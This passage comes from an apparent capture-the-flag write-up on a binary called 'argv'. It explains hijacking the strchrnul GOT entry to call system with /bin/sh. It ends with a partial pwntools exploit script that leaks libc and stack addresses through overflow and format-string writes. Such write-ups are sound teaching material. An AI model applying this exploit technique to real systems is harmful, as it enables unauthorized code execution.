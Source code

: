 Also, we cannot call `system` because the value of `rdi` is `0x1` instead of being an address pointing to a string, hmm , weird.
![](/images/ImaginaryCTF_-_Argv/Pasted_20241110215429.png)


We can retry using the other address we found (`strchrnul`). Looking at the man pages, we can see that it takes a pointer to a string as its first parameter. Let's overwrite it with `0xdeadbeef` and see what happens
![](/images/ImaginaryCTF_-_Argv/Pasted_20241110215743.png)

![](/images/ImaginaryCTF_-_Argv/Pasted_20241110215943.png)

Continuing with execution and entering a string `test`, we are redirected to `0xdeadbeef`, and not only that, our `rdi` parameter is now set to the last string we entered as input, nice!!!
![](/images/ImaginaryCTF_-_Argv/Pasted_20241110220130.png)

Now all we need is to update our script to replace the got address of `strchrnul` with `system` and then send the string `/bin/sh`. Below is the final exploit to trigger the shell
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64",os="linux")
filename = './argv'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
e = elf = ELF(filename)
target=process(filename)

def write_64(write_location,write_value):
	payload=fmtstr_payload(8,{ # injection == 8
		write_location:write_value
	})
	target.sendline(payload)

print(f"\n[*] Stage 1: Leak libc addresses")
payload=b"A" * (360) + p64(elf.got.gets)
target.sendline(payload)
gets_leak=int((u64(target.recv(0x8).ljust(8,b"\x00")))) 

libc.address = gets_leak - libc.sym['gets']
system=libc.symbols['system']
puts=libc.symbols['puts']
exit_fn=libc.symbols['exit']
binsh=next(libc.search(b'/bin/sh\x00'))
environ=libc.sym.environ


print("[+] Leaked gets got address: " + str(hex(gets_leak)))
print("[+] Libc_addr base address at : " + str(hex(libc.address)))
print("[+] Found system at : " + str(hex(system)))
print("[+] Found puts at : " + str(hex(puts)))
print("[+] Found exit_fn at : " + str(hex(exit_fn)))
print("[+] Found shell at : " + str(hex(binsh)))
print("[+] Found environ at : " + str(hex(environ)))


print(f"\n[*] Stage 2: Leak stack addresses")
payload=b"A" * (360) + p64(environ)
target.sendline(payload)

stack_leak=int((u64(target.recv(0x8).ljust(8,b"\x00"))))
buffer_start=stack_leak - 0x178
print("[+] Leaked stack address : " + str(hex(stack_leak)))

```